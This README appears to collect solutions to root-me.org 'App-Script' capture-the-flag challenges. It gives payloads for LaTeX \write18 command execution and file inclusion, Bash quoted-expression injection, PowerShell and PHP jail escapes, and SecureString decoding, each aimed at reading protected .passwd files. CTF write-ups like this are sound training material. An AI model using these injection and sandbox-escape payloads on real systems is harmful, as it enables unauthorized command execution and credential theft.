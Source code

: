 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```



